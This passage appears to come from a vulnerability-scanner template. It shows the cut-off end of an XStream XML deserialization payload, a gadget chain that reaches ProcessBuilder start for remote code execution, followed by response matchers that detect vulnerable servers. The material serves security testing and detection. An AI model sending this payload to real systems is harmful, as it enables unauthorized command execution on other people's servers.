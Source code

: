                       </iter>
                      <filter class="javax.imageio.ImageIO$ContainsFilter">
                        <method>
                          <class>java.lang.ProcessBuilder</class>
                          <name>start</name>
                          <parameter-types/>
                        </method>
                        <name>asdasd</name>
                      </filter>
                      <next class="string">asdasd</next>
                    </serviceIterator>
                    <lock/>
                  </cipher>
                  <input class="java.lang.ProcessBuilder$NullInputStream"/>
                  <ibuffer></ibuffer>
                  <done>false</done>
                  <ostart>0</ostart>
                  <ofinish>0</ofinish>
                  <closed>false</closed>
                </is>
                <consumed>false</consumed>
              </dataSource>
              <transferFlavors/>
            </dataHandler>
            <dataLen>0</dataLen>
          </value>
        </jdk.nashorn.internal.objects.NativeString>
        <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
      </entry>
      <entry>
        <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
        <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
      </entry>
    </map>

### Matchers

**Type - word**

- words
  1. Debugging information
  2. com.thoughtworks.xstream.converters.collections.MapConverter
- condition - and

**Type - status**

- status
  1. 500

---
